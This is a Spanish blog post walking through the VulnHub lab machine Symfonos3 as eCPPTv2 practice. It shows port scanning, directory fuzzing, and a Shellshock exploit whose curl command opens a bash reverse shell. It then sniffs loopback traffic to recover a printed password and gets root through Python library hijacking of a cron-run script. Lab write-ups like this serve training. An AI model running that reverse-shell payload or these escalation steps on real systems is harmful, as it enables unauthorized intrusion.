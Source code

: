 ```yaml
---
layout: post
title: "Write Up Synfonos3. "
subtitle: "eCPPTv2 Track "
category: Blog
tags: [Medium,Chunin,Linux,VulnHub,Python-library-hijacking,Reconnaissance,Protocols,CronJob,Shellshock,WireShark,Network,Traffic,User-Pivoting,pcap,TcpDump,pspy64,Fuzzing-Web,eCPPTv2]
image:
  path: /assets/img/synfonos3/synfonos3.png
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


```bash
sudo arp-scan -I ens33 --localnet
```

![list](/assets/img/synfonos3/1.png){:.lead width="800" height="100" loading="lazy"}


### Nmap


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn -sS 192.168.1.59 -oA allports
```


![list](/assets/img/synfonos3/2.png){:.lead width="800" height="100" loading="lazy"}



### Services and Versions


```bash
nmap -sVC -Pn -n -p21,22,80 198.168.1.57 -oN target
```


![list](/assets/img/synfonos3/3.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis and Expltation


### HTTP TCP-80


Aunque tenemos el puerto 21 y 22 abiertos, no tenemos usuarios ni informacion para poder tratar de hacer algo asi que vamos a meternos de lleno en el servicio web, de pimeras en una web que solo contine una imagen por que no tenemos otra que fuzzear para en contrar directorios o algo, que podamos utilizar, si vemos el codigo fuente hay un comentario que nos dice que miremos en profundidad asi que vamos a revisar.


![list](/assets/img/synfonos3/1.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/synfonos3/5.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Comentario en la web.


Fuzzenado con ffuf en contramos un directorio **/gate** y un directorio **/cgi-bin/**, y este ultimo a mi me hace hace pensar en una vulnerabilidad llamda shellshock porque se refiere que ejecuta script en bash en el servidor, por otra parte vamos a seguier fuzzenado un poquito mas.


![list](/assets/img/synfonos3/7.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Directorio **/cgi-bin/** y **/gate**.


El el directorio **/gate** ha otro directorio llamado **/cerberus**, son un rabithole ya que no llevan a nada asi que nos vamos a concentrar en el directorio **/cgi-bin/**, que tiene un directorio llamado **/underworl/**, que vamos a husmear por lo que se ve y como dije antes esta ejecutando un scritp en bash que proociona la fecaha atual en el servidor.


![list](/assets/img/synfonos3/9.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/synfonos3/10.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/synfonos3/11.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Directorio **/underworl** en **/cgi-bin/**.


![list](/assets/img/synfonos3/12.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Script nmap que comprueba la vulnerabilidad Shellshock.


Para explotar el shellshock vamos a utilizar BurpSuite, o curl para otorgarnos una reverse-shell.

```bash
curl -H 'User-Agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/192.168.1.58/443 0>&1' 'http://172.16.30.6/cgi-bin/underworld'
```


![list](/assets/img/synfonos3/13.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Para ambos casos debemos pornernos ala escucha con netcat.


***

## Escalation Privileges


Primero, ejecutamos el comando **id** en Linux para obtener información sobre la identificación del usuario actual y los grupos a los que pertenece, ademas ejecutaremos **uname -a** y **lsb_release -a** para obtener información del sistema, verificaremossi otro usurio tiene permisos sudores con **sudo -l**, además, buscamos binarios con permisos **SUID** y tareas **Cron** en busca de posibles puntos de entrada. 


Si no encontramos resultados significativos con las acciones anteriores, procedemos a subir los binarios **linpeas** y **pspy** .etc, al sistema. Estos binarios nos ayudarán a realizar un análisis de reconocimiento más exhaustivo, identificando posibles vulnerabilidades o actividades sospechosas en el sistema.


También realizamos un análisis manual del sistema, buscando configuraciones inseguras, archivos sensibles o cualquier otra anomalía que pueda indicar una posible vulnerabilidad o actividad maliciosa.


Enumerando no conseguimos nada, pero es curioso que estamos en el grupo **pcap**, lo que sigininifica que con tcpdump podemos capturar el trafico de red **lo**, consiguiendo asi contraseña para el usuari hades que sabemos que existe enumerando el sitema asimo como el usuario **hades** y la contraseña que es **PTpZTfU4vxgzvRBE** de la siguiete forma.

```bash
tcpdump -i lo -w captura.pcap
```


![list](/assets/img/synfonos3/14.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Esperamos algunos segundos para capturar el trafico y vemos las creciales en texto claro usando **wireshark** o **Tshark** que son **hades:PTpZTfU4vxgzvRBE**.


### User Pivoting


Nos autenticamos como el usuario **hades** y ejecutamos pspy64 para capturar procesos encontramos una tarea cron que esta eejcutando con curl un peticon al loaclhos y esta guardando el resultado en un archivo llamado **statuscheck.txt** asi que vamos a averguar de que se trata, lo que pasa que **/opt/client/statuscheck.txt** es ruta que utiliza un script llamado **ftpclient.py** que levanta un sevidor web y guarda el resultado en el txt, lo interante esque es vulnerable a **Python library hijacking** porque carga una biblioteca de Python, en la que tenemos permisos de escritura como lo es **ftplib**.


![list](/assets/img/synfonos3/15.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Autenticamos como el usuario **hades** .


![list](/assets/img/synfonos3/16.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Tarea **cron**.


![list](/assets/img/synfonos3/18.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Script **ftpclient.py**, y buscamos la ruta donde se encuentra **ftplib**.


![list](/assets/img/synfonos3/20.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Injectamos el codigo para otogarnos una bash con privileguios root.


![list](/assets/img/synfonos3/19.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Los permisos de la bash Cambiaron a **S** de suid.


![list](/assets/img/synfonos3/21.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ya podemos buscar la flag en elescritorio de root.

***

```bash
🎉 Felicitaciones ya has comprometido Synfonos3 de VunlHub 🎉
```
{:.centered}

***

Back to [Certification eCPPTv2](2023-07-06-Road-to-eCPPTv2.md){:.heading.flip-title}
{:.read-more}
